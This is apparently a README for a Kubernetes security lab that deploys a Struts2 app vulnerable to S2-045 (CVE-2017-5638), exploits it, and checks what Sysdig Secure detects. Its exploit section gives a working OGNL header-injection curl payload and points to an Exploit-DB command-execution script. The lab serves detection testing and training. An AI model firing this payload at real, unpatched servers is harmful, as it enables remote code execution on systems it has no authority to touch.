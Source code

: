# Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   curl -v http://localhost:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExplpoitDB's python esploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub"
- However, will not be picked up in **Sysdig** as no process was spawned, no file was accessed, and no network anomalies were detected.
- On the otherhand, the python script does yield a **Medium** severity in Sysdig.
- In Sysdig: Navigate to "**Threats**" -->  "**Sysdig Runtime Notable Events**" --> **Event ID: 18191e49f34866df273474732a500c25**
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

